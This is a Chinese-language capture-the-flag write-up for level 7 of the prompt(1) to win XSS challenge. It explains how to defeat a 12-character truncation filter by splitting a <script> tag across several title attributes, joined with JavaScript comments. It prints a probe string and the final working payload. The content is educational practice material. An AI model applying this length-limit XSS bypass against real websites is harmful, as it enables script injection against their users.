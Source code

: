 ## [[prompt(1) to win](http://prompt.ml)] [[Level 7 - Length](http://prompt.ml/7)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-7-length/)]

------

## 题目

```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

## 解题报告

题目代码很好理解：

- 使用 `#` 切割 input 的字符串，切割后的子串会被顺次放到若干个 `<p>` 标签的 `title` 属性中
- 子串长度若超过 12 则会被截断
- input 内容没有做任何过滤

可以使用这个探针看到前面的分析效果：

`11#2222#333333#44444444#5555555555#6666666666666666666666666#"><img src=0`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/01.png)


------------

需知道 javascript 代码有个特点：

- 在 HTML 语境中，`<script>` 和 `</script>` 标签之间的内容默认视为 js 代码
- js 代码换行后依然会自动拼接并生效（但是函数名/变量名要完整，不能破开到两行）
- js 代码内容之间的注释会被自动忽略

因此对于这种限制长度的注入点，可以搭配 `<script>` 和多行注释 `/* */` 进行绕过。

结合 `title` 属性值长度为 12 的限制进行考虑，可以尝试在本地构造这样的 HTML 代码，成功触发 prompt 事件：

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/  prompt/*"></p>
<p class="comment" title="*/(1)     /*"></p>
<p class="comment" title="*/</script> "></p>
```

> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，这两个标签不能从中间任何位置破开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/02.png)

从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*），完成挑战：

`"><script>/*#*/prompt/*#*/(1)/*#*/</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
